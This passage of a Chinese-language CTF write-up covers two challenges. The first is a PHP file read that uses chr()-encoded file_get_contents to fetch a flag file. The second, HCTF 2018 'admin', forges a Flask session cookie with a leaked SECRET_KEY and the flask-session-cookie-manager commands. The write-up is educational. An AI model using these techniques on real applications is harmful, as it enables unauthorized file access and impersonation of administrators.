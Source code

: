 发现   [7]=> string(5) "f1agg" 

3.file_get_contents()读取文件
`? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))`



---



## [HCTF 2018]admin  Flask session伪造

```
session是浏览器与服务器交互的会话，这个session可以来验证访问者的身份，大多数的session都是保存在服务器的，但是也有少部分是客户端session，比如flask框架。，flask是一个python轻量级web框架，他的session存储在客户端的cookie字段中
```

在该题就是要伪造session，欺骗服务器，假装自己就是admin

从题目给的hint https://github.com/woadsl1234/hctf_flask/（change password 页面查看源码）

伪造session,需要用来签名的`SECRET_KEY`，可以在config.py里找到为ckj123

<a href="https://github.com/noraj/flask-session-cookie-manager"  target="_blank">session加解密脚本</a>

这里首先要随便注册一个账号，得到session

```
session=.eJw9kE2LwjAURf_KkLWLNqMbwYUQLS28hEhqyNuI1jpp0jhDq_RD_O_TccDVXRzugXsf5HBpytaS5a25lzNyqM5k-SAfJ7IkoNAJdnYYcgph8yn0thJsb80oKTqYG5XVEDIvNPRCQQeuGECbSDBrRZJZSKae851gsscAFHU6iiTtuUsjrmHkbB2hKhYTH9DZGpzshKo9BjMIlVXA8sGETcwTmHMFMf_zOPTo1gsz-gUE6DnbUB7yFXnOSNE2l8Pt25fX9wROtzUG9CLZVSZIyp2PjN5ZUOkAQUaTdm4c1qinnLhQ-YBy9dJV4fhVvk37WNJT90-uxzABcv25tGRG7m3ZvG4jcUSevxidbLs.Xwb4GQ.icCsKPYayHjgXi1rCcbFCkrVJnI;
```

解密:`python flask_session_manager.py decode -c -s # -c是flask cookie里的session值 -s参数是SECRET_KEY`
 加密:`python flask_session_manager.py encode -s -t # -s参数是SECRET_KEY -t参数是session的参照格式，也就是session解密后的格式`

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu4.png)

这里将name的值改为admin

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu5.png)



登入后页面修改伪造的session得到flag



![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu6.png)





---



## [ZJCTF 2019]NiZhuanSiWei
